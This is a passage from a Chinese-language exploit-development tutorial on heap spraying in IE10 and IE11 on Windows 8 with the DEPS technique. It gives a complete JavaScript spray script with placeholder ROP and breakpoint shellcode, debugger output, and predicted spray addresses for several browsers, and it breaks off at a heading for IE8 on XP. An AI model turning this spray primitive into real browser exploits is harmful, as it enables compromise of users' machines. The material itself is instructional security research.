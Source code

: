 <br>

**Win8下的IE10和IE11的堆喷射**

IE9下的脚本在IE10和IE11中不再适用，IE10和IE11中无法再使用传统的BSTR字符串的方法，而要使用一种称为DEPS的技术，这种技术使用html的标签来进行堆喷射，具体就是创建大量的DOM对象，在对象的某一个属性中填入相应的字符串，这一技术的发明者给出了测试脚本:



```
&lt;html&gt;
&lt;head&gt;&lt;/head&gt;
&lt;body&gt;
&lt;div id="blah"&gt;&lt;/div&gt;
&lt;script language="javascript"&gt;
    var div_container = document.getElementById("blah");
    div_container.style.cssText = "display:none";
    var data;
    offset = 0x104;
    junk = unescape("%u2020%u2020");
    while (junk.length &lt; 0x1000) junk += junk;
    var rop = unescape("%u4141%u4141%u4242%u4242%u4343%u4343%u4444%u4444");
    shellcode = unescape("%ucccc%ucccc");
    data = junk.substring(0, offset) + rop + shellcode
    data += junk.substring(0, 0x800 - offset - rop.length - shellcode.length);
    while (data.length &lt; 0x80000) data += data;
    for (var i = 0; i &lt; 0x500; i++)
    `{`
        var obj = document.createElement("button");
        obj.title = data.substring(0, 0x40000 - 0x58);
        div_container.appendChild(obj);
    `}`
    document.write("spray done!");
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```

这个脚本先创建了一个div标签，然后加入了大量的button元素，将每个button元素的title设置为要喷射的字符串。<br>

由于win8下现在默认安装的是IE11，而且IE10和IE11差不多，这里用IE11做实验，注意这里不再使用经典的0x0c0c0c0c作为预测地址，而是使用0x20302228作为预测地址，这也算是前人研究的结果。

win8下的IE11:



```
0:016&gt; dd 20302228
20302228  41414141 42424242 43434343 44444444
20302238  cccccccc 20202020 20202020 20202020
20302248  20202020 20202020 20202020 20202020
```

对于火狐使用地址是0x20202210或0x20302210，对于IE8、IE9、IE10使用地址为0x20302228或0x20202228。<br>

XP下的IE8:
